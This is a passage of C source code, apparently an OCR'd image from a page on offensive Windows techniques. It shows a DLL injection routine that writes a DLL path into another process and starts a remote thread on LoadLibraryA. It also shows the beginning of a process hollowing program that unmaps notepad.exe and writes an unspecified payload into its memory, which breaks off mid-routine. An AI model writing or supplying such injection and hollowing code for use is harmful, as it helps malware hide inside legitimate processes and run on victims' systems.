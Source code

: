 ```c
        return 1;
    }
    
    // Allocate memory in target process
    LPVOID pRemoteBuf = VirtualAllocEx(hProcess, NULL, strlen(dll_path) + 1,
                                       MEM_COMMIT, PAGE_READWRITE);
    
    // Write DLL path to target process
    WriteProcessMemory(hProcess, pRemoteBuf, dll_path, strlen(dll_path) + 1, NULL);
    
    // Get address of LoadLibraryA
    LPVOID pLoadLibrary = (LPVOID)GetProcAddress(GetModuleHandle("kernel32.dll"),
                                                  "LoadLibraryA");
    
    // Create remote thread to load DLL
    HANDLE hThread = CreateRemoteThread(hProcess, NULL, 0,
                                       (LPTHREAD_START_ROUTINE)pLoadLibrary,
                                       pRemoteBuf, 0, NULL);
    
    WaitForSingleObject(hThread, INFINITE);
    
    printf("[+] DLL injected successfully\n");
    
    CloseHandle(hThread);
    CloseHandle(hProcess);
    
    return 0;
}
```

#### Process Hollowing
```c
// process_hollowing.c
#include <windows.h>

int main() {
    STARTUPINFO si = {0};
    PROCESS_INFORMATION pi = {0};
    
    si.cb = sizeof(si);
    
    // Create process in suspended state
    CreateProcess("C:\\Windows\\System32\\notepad.exe",
                  NULL, NULL, NULL, FALSE,
                  CREATE_SUSPENDED, NULL, NULL, &si, &pi);
    
    // Get base address of target
    CONTEXT ctx = {0};
    ctx.ContextFlags = CONTEXT_FULL;
    GetThreadContext(pi.hThread, &ctx);
    
    // Unmap original executable
    ZwUnmapViewOfSection(pi.hProcess, (PVOID)ctx.Ebx + 8);
    
    // Allocate memory for our payload
    LPVOID pImageBase = VirtualAllocEx(pi.hProcess, NULL, payload_size,
                                       MEM_COMMIT | MEM_RESERVE,
                                       PAGE_EXECUTE_READWRITE);
    
    // Write payload
    WriteProcessMemory(pi.hProcess, pImageBase, payload, payload_size, NULL);
    
    // Update entry point
```